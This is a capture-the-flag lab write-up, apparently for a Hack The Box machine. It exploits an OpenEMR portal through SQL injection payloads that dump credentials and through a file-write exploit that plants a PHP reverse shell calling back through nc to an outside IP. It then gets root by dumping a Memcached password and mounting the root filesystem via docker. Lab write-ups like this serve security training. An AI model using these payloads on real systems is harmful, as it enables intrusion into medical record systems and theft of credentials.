 # Summary
- User: OpenEMR vulnerabilies allowing for unauthenticated SQL injection followed by authenticated remote file creation resulting in a reverse shell
- Root: access Memcache to retrieve stored password, switch to user who is member of docker group, and spin up an image with the root directory mounted to it

# Details
### User: 9685c3e24ae419b4a1b4f1d6a43abc32
- Nmap scan reveals ports 22 and 80 are open
- `functionality.js` file contains local login check for `username: ash` and `password: H@v3_fun`
- `cache.htb/author.html` page mentions "HMS(Hospital Management System)", leading to the discovery of alternate `hms.htb` domain hosting an OpenEMR portal that is vulnerable to several exploits
    - Exploit: https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf
- visiting `hms.htb/portal/account/register.php` sets two session variables (`pid` and `patient_portal_onsite_two`) that allow for SQL injection on several different pages, one of which is `hms.htb/portal/find_appt_popup_user.php?catid=1' < injection >`
    - POC: `hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -`
- OpenEMR database structure contains a table named `users_secure` that holds user authentication credentials
    - username: `hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT((SELECT username FROM users_secure),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -`
        - `openemr_admin`
    - password: `hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT((SELECT password FROM users_secure),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -`
        - `$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.`
- cracking password with `john` reveals it to be `xxxxxx` and allows logging in to OpenEMR interface with `username: openemr_admin` and `password: xxxxxx`
- logging in as `openemr_admin` enables arbitrary file access exploit
    - Exploit: `/usr/share/exploitdb/exploits/linux/webapps/45202.txt`
    - POC: `curl -b "OpenEMR=vqkpfcd8lvmp064vipo4819md1;PHPSESSID=68jbgc5f01khrm9ekd7danov4m" -d "mode=get&docid=/etc/passwd" http://hms.htb/portal/import_template.php`
- setup listener, upload PHP reverse shell, and trigger it
    - `curl -b "OpenEMR=vqkpfcd8lvmp064vipo4819md1;PHPSESSID=68jbgc5f01khrm9ekd7danov4m" -d "mode=save&docid=../services/neko.php&content=<?php exec('rm -f neko; mkfifo neko; cat neko | /bin/sh -i 2>%261 | nc 10.10.14.41 9405 > neko'); ?>" http://hms.htb/portal/import_template.php`
- use `su` to log in as `ash` with `H@v3_fun` password from earlier

### Root: 9d934c54c58a2ac01ef42282d336289e
- use `/dev/shm` to download enumeration scripts
- enumeration reveals Memcached running on port 11211
- use `telnet 127.0.0.1 11211` to connect to server on localhost and dump keys, retrieving `0n3_p1ec3` password for use with `luffy`
    - `stats items`, view key counts
    - `stats cachedump 1 5`, view key names
    - `get passwd`, get passwd key value
- after switching to `luffy` user, `id` reveals they are part of the `docker` group which means they can run an image and mount any local directory inside it, including the root directory
    - `docker image ls`, check for local images
    - `docker run -v /:/mnt -it ubuntu /bin/bash`, run Ubuntu image and mount local root directory inside, giving access to flag

